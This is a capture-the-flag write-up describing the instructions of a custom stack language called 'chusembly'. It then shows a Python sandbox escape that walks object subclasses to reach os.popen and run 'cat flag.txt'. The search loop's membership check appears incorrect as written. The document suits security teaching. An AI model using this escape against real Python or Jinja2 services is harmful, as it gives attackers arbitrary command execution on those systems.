 For:

- `LD reg value` : assigns register reg an value (int or a string if provided with ascii hex value)
- `PUSH reg` : pushes a register reg value to stack
- `POP reg` : removes the top most value from stack and assigs to a given reg
- `PEEK reg` : assigns last stack value to a given register variable
- `ADD reg1 reg2` : allows to add two registers reg1,reg2 and store it in first register reg1
- `CMP reg1 reg2` : compares two registers and assign it to new register E in int bool form
- `DEL reg` : deletes given register reg
- `CALL reg` : calls given register reg if it's callable passing arguments as register A, register B, both or none depending if they are none or not and assigns the return value to new register E
- `MOV reg1 reg2` : assigns reg1 value to reg2
- `PROP prop reg2` : allows us to get registers[reg2].prop and assign it to new register E
- `IDX reg1 reg2` : allows us to assign reg2 value from reg1's index at nth position where n is the int value of reg A if reg1 is list, string or tuple.
- `STDOUT reg` : prints register reg value
- `END` : Ends the program

## Solution Walkthrough

Now since we have got ourselves familiar with chusembly we need to access os.popen using strings I wasn't familiar with building custom payloads so I check ehax discord server and found this resource for creating sstl templates though our vulnerability is prone to sstl we can learn how to access different function

### creating sample payload in python

[Resource](https://onsecurity.io/article/server-side-template-injection-with-jinja2/)

After going through this resource I got to know about **MRO(Method Resolution Order)**
through which we can access super classes of a particular class

Since with LD we can assing a string to a particular register we need to create a payload which can access os.popen

For creating the payload I imported the same python libraries and ran the following script

**Here below `i`,`j` denotes the index of os.\_wrap_close and os.popen respectively in the respective list dealing with.**

```python
from flask import Flask, render_template, request
import io, contextlib, threading


subcl=''.__class__.__base__.__subclasses__()
i=0
for i in range(0,len(subcl)):
    if('os.' in subcl):
        break;
# through this I got os._wrap_close from which got access to os

# j is the index at which we have got popen in os class since we can only do indexing of list it necessary to convert the list and get index j
j=list(''.__class__.__base__.__subclasses__()[i].__init__.__globals__.keys()).index('popen')


list(''.__class__.__base__.__subclasses__()[i].__init__.__globals__.values())[j]('cat flag.txt').read()

print(i,j)
```
